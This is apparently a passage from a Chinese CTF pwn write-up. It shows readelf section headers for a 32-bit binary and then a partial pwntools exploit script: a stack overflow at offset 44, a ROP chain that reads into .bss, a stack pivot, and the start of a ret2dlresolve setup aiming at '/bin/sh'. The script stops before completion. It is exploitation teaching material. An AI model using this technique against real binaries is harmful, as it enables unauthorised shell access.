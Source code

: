 ```
  [18] .eh_frame         PROGBITS        0804863c 00063c 00010c 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        0804a000 001000 00001c 04  WA  0   0  4
  [25] .data             PROGBITS        0804a01c 00101c 000008 00  WA  0   0  4
  [26] .bss              NOBITS          0804a040 001024 00002c 00  WA  0   0 32
  [27] .comment          PROGBITS        00000000 001024 000035 01  MS  0   0  1
  [28] .shstrtab         STRTAB          00000000 0017a5 00010a 00      0   0  1
  [29] .symtab           SYMTAB          00000000 00105c 0004c0 10     30  47  4
  [30] .strtab           STRTAB          00000000 00151c 000289 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings)
  I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
  O (extra OS processing required) o (OS specific), p (processor specific)

```

### 利用

#### 完整exp：

```python
#!/usr/bin/python

from pwn import *
elf = ELF('./pwn')
offset = 44
read_plt = elf.plt['read']
# write_plt = elf.plt['write']

ppp_ret = 0x080485d9 # 0x080485d9 : pop esi ; pop edi ; pop ebp ; ret
pop_ebp_ret = 0x080485db # 0x080485db : pop ebp ; ret
leave_ret = 0x08048448	 # 0x08048448 : leave ; ret

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
base_stage = bss_addr + stack_size

p = process('./pwn')


payload = 'A' * offset
payload += p32(read_plt) 
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) 
payload += p32(base_stage)
payload += p32(leave_ret) 
p.sendline(payload)

cmd = "/bin/sh"
plt_0 = 0x08048380
rel_plt = 0x0804833c
index_offset = (base_stage + 28) - rel_plt
read_got = elf.got['read']
dynsym = 0x080481dc
dynstr = 0x0804827c
fake_sym_addr = base_stage + 36
```